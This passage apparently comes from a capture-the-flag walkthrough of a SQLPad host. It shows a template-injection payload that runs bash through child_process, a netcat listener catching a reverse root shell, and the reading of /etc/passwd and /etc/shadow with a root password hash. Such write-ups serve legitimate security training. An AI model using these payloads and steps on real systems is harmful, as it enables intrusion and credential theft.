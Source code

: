 ```c
{{ process.mainModule.require('child_process').exec('bash x') }}
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.132] from (UNKNOWN) [10.129.200.167] 45444
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad#
```

Since `Python` was not available we stabilized our shell using `script`. Shout-out to `ar0x4` for this helpful little trick back in the day.

```c
root@c184118df0a6:/var/lib/sqlpad# script -q /dev/null -c bash
script -q /dev/null -c bash
```

## Enumeration

Since we dropped into a shell as `root` we were able to read the `shadow` file which contained two interesting `hashes`. One for `root` and one for a user called `michael`.

```c
root@c184118df0a6:/var/lib/sqlpad# cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
```

```c
root@c184118df0a6:/var/lib/sqlpad# cat /etc/shadow
cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
```